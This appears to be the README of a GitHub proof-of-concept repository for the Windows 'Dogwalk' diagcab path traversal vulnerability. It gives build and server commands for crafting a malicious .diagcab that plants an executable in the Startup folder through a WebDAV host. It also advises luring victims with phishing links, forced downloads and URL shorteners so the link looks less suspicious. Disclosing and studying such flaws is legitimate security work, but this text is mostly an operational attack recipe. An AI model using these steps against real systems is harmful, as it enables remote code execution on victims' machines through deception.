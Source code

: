 <div align=center>
<h1> Dogwalk Proof-of-Concept🐾</h1>
<pre><code>
<h><strong>🚨 Disclaimer 🚨</strong></h4>

<br><br>The PoC enables an attacker to be able to obtain <strong>Remote Code Injection</strong> on a Windows victim device.
<br>The goal of this repo is to make a PoC even more usable than the <a href=https://github.com/irsl/microsoft-diagcab-rce-poc>initial repo</a>.
<br>DO NOT USE IT WITHOUT PRIOR AUTHORIZATION!
<br><br><i>Regarding the damage caused and the simplicity of exploitation, I hope Microsoft will fix it</i>
</code></pre>
</div>

* [🧠 Understand it](#how-it-works)
* [🐾 Run it](#lets-get-it)
* [📺 Show Me](##-wait-and-see)

***Core concept:*** path traversal vulnerability in Microsoft's Diagcab technology (`msdt`) that could lead to remote code execution.<br>
You can find the full advisory in the [blog post](https://medium.com/@radimre83/the-trouble-with-microsofts-troubleshooters-6e32fc80b8bd)<br>
The vulnerability has been reported for **2 years** (by [@irsl](https://github.com/irsl)) and still has **no fix**!




## How it works?

The Proof-of-Concept sets up a webdav server hosting a malicious `.diagcab` file that will perform a path transversal to write a malicious executable in `C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup`. Writing an executable in this folder will execute it each time the user start the windows machine, this is called ***Boot Logon Autostart Execution***.

So, basically what we need is:
* webDAV server
* Malicious `.diagcab` file
* Malicious executable *(legit one or basic text file is sufficient for the PoC)*

### 🎬 Scenario

1. The victim will visit a link (phishing, social engineering, or whatever) that will download the `.diagcab` file

<sup>*(💡 use `Content-type: application/octet-stream` response header to make the Browser automaticaly downloading the file when browsing the url)*</sup>

2. The victim click on the file download (could easily/accidentaly happen by just clicking on the browser download folder)
3. The cab file loads the webdav malicious executable -> ***(path transversal)*** downloaded in Start up menu
4. The user restart his device -> ***(RCE)***

## Let's get it

If you are too lazy (or in a hurry) to proceed step-by-steps:
```shell
./hurry-dogwalk.sh [WEBDAV_URL]         # need docker
# Stop the server
./hurry-dogwalk.sh --clean
```

Otherwise ↓↓

### 🔨 Craft the  `.diagcab` file

* `.diagcfg` are simple XML files that hold reference to one or more diagnostic packages and provide meta information about them
* They are packaged into Microsoft cabinet file archives and saved with `.diagcab` extension.

Firt build `custom.diagcfg`:
```shell
./build-malicious-diagcfg.sh --url [WEBDAV_URL]
```

And build the `hotfix895214.diagcab`:
```shell
cabarc.exe n hotfix895214.diagcab custom.diagcfg
# run it on windows (or with wine). If you do not find carbarc.exe use http://jc.bellamy.free.fr/download/cabarc.exe or http://download.microsoft.com/download/platformsdk/cab/2.0/w98nt42kmexp/en-us/Cabsdk.exe
```

Finally, move it in the `./webdav/diagcab-webdav-poc/config` directory

### 🏗️ Set up the server

Put the executable you want to transfer on victim machine within `./webdav/malicious` directory... <sup>*(Here we use the classic `calc.exe`)*</sup>

...And launch the server:
```
cd ./webdav/diagcab-webdav-poc/
perl diagcab-webdav-poc.pl
```

The malicious `.diagcab` is available at `https://[WEBDAV_URL]/config/hotfix895214.diagcab`. You now have to lure a victim to click on this link.

<sup>*(💡you can use URL shortener to make it appears less suspicious)*</sup>

### 👁️ Wait and see...

<details>
<summary><b>Dogwalk set up</b></summary>
<div align=center>
<img src=https://github.com/ariary/Dogwalk-rce-poc/blob/main/img/dogwalk_setup.gif>
</div>
</details>


![demo](https://github.com/ariary/Dogwalk-rce-poc/blob/main/img/dogwalk_exploit.gif)


